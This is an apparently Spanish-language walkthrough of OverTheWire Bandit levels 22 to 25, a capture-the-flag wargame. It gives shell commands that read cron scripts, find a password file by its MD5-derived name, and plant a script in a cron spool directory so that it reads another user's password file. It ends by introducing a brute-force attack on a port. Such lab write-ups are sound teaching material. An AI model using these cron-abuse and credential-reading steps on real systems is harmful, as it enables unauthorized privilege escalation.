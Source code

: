### **Nivel 22 → Nivel 23**  

**Objetivo:** Obtener la contraseña generada por un script cron.  

**Comando:**  

```bash
cd /etc/cron.d/
ls -l
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
whoami
myname=bandit23
mytarget=$(echo "I am user $myname" | md5sum | cut -d ' ' -f 1)
cat /tmp/$mytarget
```

**Solución:**  
El script `cronjob_bandit23.sh` genera un hash MD5 con el formato `"I am user <usuario>"` y guarda la contraseña en un archivo en `/tmp/`. Calculamos el hash correspondiente a `bandit23` y lo usamos para localizar el archivo con la contraseña.  

---

### **Nivel 23 → Nivel 24**  

**Objetivo:** Aprovechar un cronjob para extraer la contraseña.  

**Comando:**  

```bash
cd /etc/cron.d/
ls -l
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/myscript
cd /tmp/myscript
nano pass.sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 > /tmp/myscript/password" 
chmod +x pass.sh
cp pass.sh /var/spool/bandit24/foo
cat /tmp/myscript/password
```

**Solución:**  
El script de cron ejecuta cualquier archivo ubicado en `/var/spool/bandit24/`. Creamos un script que copia la contraseña a un archivo accesible en `/tmp/`, lo colocamos en esa carpeta y esperamos a que sea ejecutado automáticamente. Luego, leemos el archivo generado.  

---

### **Nivel 24 → Nivel 25**  

**Objetivo:** Realizar un ataque de fuerza bruta contra un servicio en el puerto 30002.  
